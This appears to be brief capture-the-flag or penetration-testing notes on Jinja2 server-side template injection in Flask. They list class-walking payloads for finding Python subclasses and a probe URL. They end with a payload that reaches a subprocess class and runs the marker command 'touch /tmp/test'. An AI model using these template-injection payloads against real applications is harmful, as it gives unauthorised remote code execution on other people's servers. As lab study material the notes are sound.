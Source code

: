# flask/jinja2
Lots of writeups on this; google it. 

## rce
Find all classes
- {{''.__class__.mro()[1].__subclasses__()}} 
- {{ [].__class__.base.__subclasses__() }}



From there it's just a matter of finding the right array indexes to access
things like popen or subprocess

May have to poke around more
- http://ptl-bc1183e6-6992a7f1.libcurl.st/invalid%7B%7B[].class%7D%7D

-
{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[229]([\"touch /tmp/test\"], shell=True) }}
